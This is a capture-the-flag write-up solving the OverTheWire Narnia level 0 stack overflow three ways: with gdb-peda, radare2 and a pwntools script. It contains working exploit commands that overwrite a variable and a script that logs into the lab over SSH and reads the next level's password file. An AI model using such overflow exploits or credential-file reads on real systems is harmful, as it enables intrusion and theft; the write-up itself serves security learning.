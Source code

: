 ```yaml
---
title: "Narnia0 Write-up"
layout: post
category: Write-ups
author: A1phaZer0
---
```

3 ways to conquer narnia0, by peda, by radare2 and by pwntools.
<!--more-->
### PEDA way
1.Get De Bruijn sequence to make overflow happen.  
```bash
gdb-peda$ pattern create 50
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbA'
gdb-peda$ r
Starting program: /narnia/narnia0 
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbA
buf: AAA%AAsAABAA$AAnAACAA-AA
val: 0x41412d41
WAY OFF!!!!
[Inferior 1 (process 1013) exited with code 01]
Warning: not running or target is remote
```
2.`val` is filled by `0x41 0x2d 0x41 0x41` (little endian), which is `A-AA`. Now we know that `val` is 20 bytes away from beginning of the buffer.  
```bash
gdb-peda$ pattern offset A-AA
A-AA found at offset: 20
```
3.Craft the desired sequence.  
```bash
$ perl -e 'print "A"x20 . "\xef\xbe\xad\xde"' | ./narnia0
```
4.But, nothing happened.  
```bash
narnia0@narnia:/narnia$ perl -e 'print "A"x20 . "\xef\xbe\xad\xde"' | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAﾭ�
                                                 val: 0xdeadbeef
narnia0@narnia:/narnia$
```
NOW, HERE IS THE TRICK   
```c
+-------------------+           +--------------+           +-------------------+
|                   |  write()  |              |  read()   |                   |
|  libc I/O buffer  |---------->| pipe buffer  |---------->|  libc I/O buffer  |
|                   |           |              |           |                   |
+-------------------+           +--------------+           +-------------------+
|             ^     |                                      |     |             |
| printf()    |     |                                      |     |    scanf()  |
| puts()      |     |                                      |     |    getline()|
| fwrite()----+     |                                      |     +---->fread() |
|                   |                                      |                   |
|                   |                                      |                   |
+-------------------+                                      +-------------------+
```
* stdin is always buffered.
* stderr is always unbuffered.
* stdout is line buffered if it's a terminal, otherwise it's buffered.
* if left side of pipe is closed, right side process will read() a EOF.

So, when a process on the left side of the pipe explicitly calls flush function or when it exits, everything in I/O buffer will be write() into pipe buffer. On the right side, it's a different story, e.g. `scanf("%20s", buf);`, if characters left in I/O buffer is not enough, then kernel will read() everything in pipe buffer into I/O buffer, if characters in pipe buffer is not adequate, then there will be another read() until there's nothing to read(), i.e. read() returns 0.  

In this program, narnia0, `system("/bin/sh");` is called, means that there will be another process and I/O buffer connected to pipe buffer. New shell tries to read() from pipe buffer to get input, so our work is to satisfy `scanf()` in narnia0 and leave something to read() in pipe buffer.  

### radare2 way
In radare2 one can directly do reverse engineering to see what's under the hood.   
1.Open binary and navigate to `main`.
```bash
narnia0@narnia:/narnia$ r2 narnia0
[0x08048400]> s main
```
2.Analyze `main` function and print disassembled code.
```c
[0x080484fd]> afr main
[0x080484fd]> pdf
/ (fcn) main 156
|           0x080484fd      55             push ebp
|           0x080484fe      89e5           mov ebp, esp
|           0x08048500      83e4f0         and esp, 0xfffffff0
|           0x08048503      83ec30         sub esp, 0x30
|           0x08048506      c744242c4141.  mov dword [esp + 0x2c], 0x41414141
|           ...
|           0x08048526      8d442418       lea eax, [esp + 0x18]
|           0x0804852a      89442404       mov dword [esp + 4], eax
|           0x0804852e      c70424798604.  mov dword [esp], str._24s
|           0x08048535      e8b6feffff     call sym.imp.__isoc99_scanf
|           ...
|           0x08048597      c9             leave
\           0x08048598      c3             ret
```
As one can see, `esp + 0x2c` is where 0x41414141 located and `esp + 0x18` is where buffer start.
```bash
[0x080484fd]> ? 0x2c - 0x18
20 0x14 024 20 0000:0014 20 "\x14" 00010100 20.0 20.000000f 20.000000
```
Now one can know that `val` is 20 bytes away from `buffer` and scanf reads 24 bytes from input, so the last 4 bytes will override what's in `val`.  

### pwntools way
```python
#!/usr/bin/env python

from pwn import *

session = ssh('narnia0', 'narnia.labs.overthewire.org', port=2226, password='narnia0')

io = session.process('/narnia/narnia0')

io.sendline(cyclic(20)+p32(0xdeadbeef))
io.sendline('cat /etc/narnia_pass/narnia1')

log.info (io.recvregex('\$.*\n'))

io.close()
session.close()
```
